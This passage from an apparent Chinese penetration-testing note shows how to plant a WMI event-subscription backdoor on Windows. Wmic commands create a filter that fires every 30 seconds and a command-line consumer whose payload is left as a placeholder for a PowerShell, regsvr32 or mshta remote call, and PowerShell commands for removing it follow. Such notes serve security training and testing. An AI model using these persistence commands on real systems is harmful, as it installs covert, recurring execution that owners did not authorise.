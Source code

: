 	每隔30秒加载一次payload
	>wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 30 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
	>wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23",CommandLineTemplate="远程调用(powershell,regsvr32,mshta等)"
	>wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
![image](/assets/Pentest_Note/master/img/524.png)

	重启维持
	卸载后门
	>Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='BotFilter82'" | Remove-WmiObject -Verbose
	>Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='BotConsumer23'" | Remove-WmiObject -Verbose
	>Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%BotFilter82%'" | Remove-WmiObject -Verbose